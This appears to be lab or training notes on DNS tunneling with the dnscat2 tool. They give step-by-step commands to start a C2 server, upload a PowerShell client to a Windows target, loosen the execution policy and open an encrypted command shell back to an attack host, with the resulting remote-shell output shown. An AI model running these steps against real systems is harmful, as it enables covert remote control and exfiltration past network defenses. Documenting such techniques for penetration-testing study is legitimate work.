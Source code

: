 DNS Tunneling with Dnscat2
##########################

Description
***********

Dnscat2 is a tool to leverage the TXT record to transfer data between to machines.  It leverages an encrypted C&C (or C2) 
chanel.  

Installation
************
.. code-block:: console

    git clone https://github.com/iagox86/dnscat2.git

    cd dnscat2/server/
    sudo gem install bundler
    sudo bundle install

Usage
*****

**step 1** 

Starting the dnscat2 server

.. code-block:: console

    sudo ruby dnscat2.rb --dns host=10.10.15.24,port=53,domain=inlanefreight.local --no-cache

The output of this command will yield a secret key that is to be used on the client

**step 2**
To use the Windows client clone the following repository

.. code-block:: console

    git clone https://github.com/lukebaggett/dnscat2-powershell.git

Upload the .ps1 file to the target.


**Step 3** Change the security policy and Load the file into the cmdlet

.. code-block:: console

    Set-ExecutionPolicy -ExecutionPolicy unrestricted -Scope Process
    Import-Module ./dnscat2.ps1

**Step 4** establish a tunnel back to the attack host

.. code-block:: console

    Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 37268a1c8f891abc814e1a75db083cac -Exec cmd

You can interact with the tunnel by looking at options with `?`

**Step 5**

Interacting with the tunnel

.. code-block:: console 

    dnscat2> window -i 1
    New window created: 1
    history_size (session) => 1000
    Session 1 Security: ENCRYPTED AND VERIFIED!
    (the security depends on the strength of your pre-shared secret!)
    This is a console session!

    That means that anything you type will be sent as-is to the
    client, and anything they type will be displayed as-is on the
    screen! If the client is executing a command and you don't
    see a prompt, try typing 'pwd' or something!

    To go back, type ctrl-z.

    Microsoft Windows [Version 10.0.18363.1801]
    (c) 2019 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>
    exec (OFFICEMANAGER) 1>